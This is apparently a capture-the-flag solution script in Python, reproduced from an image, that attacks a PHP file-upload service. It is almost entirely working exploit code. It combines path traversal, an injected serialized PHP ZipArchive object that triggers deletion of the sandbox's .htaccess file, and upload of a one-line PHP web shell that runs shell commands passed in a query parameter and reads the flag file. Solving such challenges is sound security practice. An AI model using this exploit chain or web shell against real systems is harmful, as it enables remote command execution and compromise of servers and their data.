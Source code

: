 ```
    return s.get(URL, params=params).text

newname = "../" * 115 # To overwrite fakename #2
serialized_injection = '";s:1:"e";s:0:"";`}`i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'

# Upload 2 files
upload("A")
upload("B")

# Rename to inject serialized ZipArchiver
rename(1, serialized_injection)
rename(0, newname)

# Upload a shell
upload("shell.php", "&lt;?php system($_GET[cmd]); ?&gt;")

# Cookie received
print " === Cookie === "
print urllib.unquote(s.cookies['files'])

# Trigger .htaccess removal
open_file(1)

shell_url = URL + "sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/fe95113d494997061044e7142af542e84f3eebbf.php"

response = requests.get(shell_url, params=`{`"cmd" : "cat /flag"`}`)
flag = response.text
print flag
```
